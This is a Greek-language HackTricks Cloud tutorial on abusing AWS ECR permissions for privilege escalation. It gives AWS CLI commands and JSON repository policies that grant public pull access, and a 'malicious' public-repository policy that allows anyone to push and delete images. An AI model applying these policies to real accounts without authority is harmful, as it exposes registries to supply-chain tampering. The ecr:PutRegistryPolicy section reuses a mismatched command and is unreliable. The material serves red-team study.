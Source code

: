 # AWS - ECR Ανέλεγκτη Προνομιούχος Πρόσβαση

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

Ένας επιτιθέμενος με τις άδειες **`ecr:GetAuthorizationToken`** και **`ecr:BatchGetImage`** μπορεί να συνδεθεί στο ECR και να κατεβάσει εικόνες.

Για περισσότερες πληροφορίες σχετικά με το πώς να κατεβάσετε εικόνες:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**Πιθανές Επιπτώσεις:** Έμμεση ανέλεγκτη προνομιούχος πρόσβαση με την παρεμπόδιση ευαίσθητων πληροφοριών στην κίνηση.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

Ένας επιτιθέμενος με όλες αυτές τις άδειες **μπορεί να συνδεθεί στο ECR και να ανεβάσει εικόνες**. Αυτό μπορεί να είναι χρήσιμο για την ανέλεγκτη προνομιούχο πρόσβαση σε άλλα περιβάλλοντα όπου χρησιμοποιούνται αυτές οι εικόνες.

Για να μάθετε πώς να ανεβάσετε μια νέα εικόνα/ενημερώσετε μια υπάρχουσα, ελέγξτε:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Όπως και η προηγούμενη ενότητα, αλλά για δημόσιους αποθετήρια.

### `ecr:SetRepositoryPolicy`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να **αλλάξει** την **πολιτική του αποθετηρίου** για να χορηγήσει στον εαυτό του (ή ακόμα και σε όλους) **πρόσβαση ανάγνωσης/εγγραφής**.\
Για παράδειγμα, σε αυτό το παράδειγμα δίνεται πρόσβαση ανάγνωσης σε όλους.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
Περιεχόμενα του `my-policy.json`:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

Όπως και στην προηγούμενη ενότητα, αλλά για δημόσια αποθετήρια.\
Ένας επιτιθέμενος μπορεί να **τροποποιήσει την πολιτική του αποθετηρίου** ενός δημόσιου αποθετηρίου ECR για να χορηγήσει μη εξουσιοδοτημένη δημόσια πρόσβαση ή για να αναβαθμίσει τα δικαιώματά του.

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη δημόσια πρόσβαση στο δημόσιο αποθετήριο ECR, επιτρέποντας σε οποιονδήποτε χρήστη να ανεβάσει, να κατεβάσει ή να διαγράψει εικόνες.

### `ecr:PutRegistryPolicy`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να **αλλάξει** την **πολιτική του αποθετηρίου** για να χορηγήσει στον εαυτό του, στον λογαριασμό του (ή ακόμα και σε όλους) **πρόσβαση ανάγνωσης/εγγραφής**.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

